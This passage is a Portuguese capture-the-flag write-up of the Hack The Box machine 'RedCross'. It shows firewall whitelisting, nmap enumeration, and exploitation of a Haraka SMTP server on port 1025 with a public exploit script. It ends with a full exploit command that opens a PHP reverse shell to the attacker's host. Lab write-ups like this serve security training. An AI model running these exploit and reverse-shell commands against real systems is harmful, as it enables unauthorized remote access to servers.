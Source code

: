 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_fir1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_fir.png)

Agora digito o IP da minha Kali e clico em `Allow IP`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_fir2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_fir3.png)

Agora rodo o nmap de novo na máquina, e vejo que abriram outras portas

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_fir4.png)

### 1º Modo - Haraka

Bom, para "identificar" que é vulnerável precisamos de mais umas enumerações dentro da porta 1025, com uma conexão simples no nc na porta já conseguimos verificar o Haraka sendo executado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_har.png)

Então, procuramos por exploits e copiamos para nossa pasta de trabalho

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_har1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_har2.png)

Verificamos como ele funciona

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_har4.png)

Precisamos fazer uns ajustes no exploit, na linha 123, ele está se conectando com a porta 25, mas o servidor está sendo executado na 1025

Antes

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_har5.png)

Depois

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_har6.png)

Então fazemos a máquina nos pingar

`python 41162.py -c "ping -c 1 10.10.16.4" -t penelope@redcross.htb -m 10.10.10.113`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_har3.png)

Shoow! Deu certo, agora vamos pegar um reverse shell (esse reverse deu muito trabalho por causa das " e dos $)

`python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.16.4\",443);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.10.10.113`
